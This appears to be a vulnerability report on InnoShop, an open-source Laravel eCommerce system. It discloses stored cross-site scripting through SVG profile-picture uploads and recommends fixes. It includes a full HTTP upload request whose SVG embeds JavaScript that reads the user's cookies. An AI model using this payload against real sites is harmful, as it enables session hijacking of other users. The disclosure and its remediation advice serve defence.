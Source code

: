 <h1>InnoShop</h1>

Innoshop is an Open Source eCommerce System based on Laravel 11, supporting multiple languages, multiple currencies, integrated with OpenAI, and featuring plugin mechanisms and theme template development for enhanced user experience and system extensibility.

**Git Repo:** https://github.com/innocommerce/innoshop


**Finding:**
---

-Stored Cross-Site Scripting in SVG image

Proof Of Concept
---

1. Login as any user

2. Go to Profile > Edit Profile

3. Upload a malicious SVG image then save the change
If any user clicks the image link or the attacker send this link to the victim, their cookies will be stolen. The attacker can use this cookie to impersonate the victim and perform activities on behalf of them.


**For example:**

**UI URL:**

http://YOUR-IP/upload/images

**HTTP Request:**

```
POST /upload/images HTTP/1.1
Host: 192.168.176.137:4444
[...]

------WebKitFormBoundary66kGgRrPnxG9sC35
Content-Disposition: form-data; name="image"; filename="xss.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 20010904//EN"
 "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg version="1.0" xmlns="http://www.w3.org/2000/svg"
 width="300.000000pt" height="300.000000pt" viewBox="0 0 300.000000 300.000000"
 preserveAspectRatio="xMidYMid meet">
<script type="text/javascript">
    <![CDATA[
      // JavaScript code embedded in the SVG
      function getUserCookies() {
  
        // Read all cookies
        var allCookies = document.cookie;
        alert("Cookies found:" + allCookies)
      }

      // call the function
      getUserCookies();
    ]]>
</script>
<metadata>
Created by potrace 1.10, written by Peter Selinger 2001-2011
</metadata>
<g transform="translate(0.000000,300.000000) scale(0.050000,-0.050000)"
fill="#000000" stroke="none">
<path d="M4390 5952 c-113 -53 -289 -221 -427 -409 -84 -114 -98 -125 -153
[...]
------WebKitFormBoundary66kGgRrPnxG9sC35
Content-Disposition: form-data; name="type"

common
------WebKitFormBoundary66kGgRrPnxG9sC35--
```

**Recommendation:**
---

Restrict SVG image file. This is the easiest solution. However, users won't be able to upload their profile pictures using image SVG file extension.
Since you are using NPM for frontend, i suggest you to use DOMPurify. This will completely mitigate XSS in SVG while the file extension is still allowed to be uploaded.
Assign HttpOnly flag to XSRF-Token. This does not completely mitigate XSS but it can prevent hackers to send stolen cookies to their web server.
Input validation. Make sure users can't use special letters like < >, ", & etc. I can see that in some sections for example Phone number section does not validate and allow users to add value that is not integer but string.
